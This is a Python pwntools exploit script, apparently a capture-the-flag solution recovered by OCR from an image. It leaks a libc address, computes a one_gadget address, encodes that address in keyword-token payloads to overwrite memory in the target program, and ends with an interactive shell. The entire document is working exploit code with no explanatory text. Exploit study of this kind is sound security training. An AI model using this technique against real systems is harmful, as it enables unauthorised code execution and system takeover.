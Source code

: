 ```python
ex += b'bordercollie'*0x6
ex += b'cranberry'
  
print(len(ex))
p.sendlineafter(b"? ", ex)
print_add = u64(p.recv(6)+b"\x00\x00")

libc_base = print_add -  0x61c90 # print_off
one_gadget = libc_base + 0xe3b01
print(hex(one_gadget))

one_up = one_gadget // 0x1000000
one_dn = one_gadget % 0x1000000
  
ex2 = b''
ex2 += b'mystery'
ex2 += b'holymoly'*0x404
ex2 += b'rolypoly'*0x0
ex2 += b'monopoly'*0x4
ex2 += b'guacamole'*0x8
ex2 += b'mystery'
for i in range((one_dn // 0x1000)):
    ex2 += b'holymoly'
for i in range(((one_dn % 0x1000) // 0x100)):
    ex2 += b'rolypoly'
for i in range(((one_dn % 0x100) // 0x10)):
    ex2 += b'monopoly'
for i in range((one_dn % 0x10)):
    ex2 += b'guacamole'
ex2 += b'cranberry'
ex2 += b'mystery'
  
ex2 += b'guacamole'*0x3
  
ex2 += b'mystery'
  
if(one_up > one_dn):
    for i in range(((one_up - one_dn) // 0x1000)):
        ex2 += b'holymoly'
    for i in range((((one_up - one_dn) % 0x1000) // 0x100)):
        ex2 += b'rolypoly'
    for i in range((((one_up - one_dn) % 0x100) // 0x10)):
        ex2 += b'monopoly'
    for i in range(((one_up - one_dn) % 0x10)):
        ex2 += b'guacamole'
else:
    for i in range(((one_dn-one_up) // 0x1000)):
        ex2 += b'robocarpoli'
    for i in range((((one_dn-one_up) % 0x1000) // 0x100)):
        ex2 += b'halligalli'
    for i in range((((one_dn - one_up) % 0x100) // 0x10)):
        ex2 += b'broccoli'
    for i in range(((one_dn - one_up) % 0x10)):
        ex2 += b'bordercollie'
  
 
ex2 += b'cranberry'
  
p.sendlineafter(b"? ", ex2)

print(len(ex2))

p.interactive()
```